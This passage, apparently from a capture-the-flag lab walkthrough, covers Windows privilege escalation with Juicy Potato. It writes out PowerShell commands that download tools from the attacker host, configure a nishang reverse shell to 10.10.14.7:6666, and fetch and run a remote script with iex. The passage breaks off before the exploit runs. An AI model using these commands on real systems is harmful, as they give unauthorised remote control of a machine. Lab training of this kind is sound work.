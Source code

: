 Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\Destitute\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](../images/max/942/1*MXutASCD9YtJArLqrfz0Tg.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.
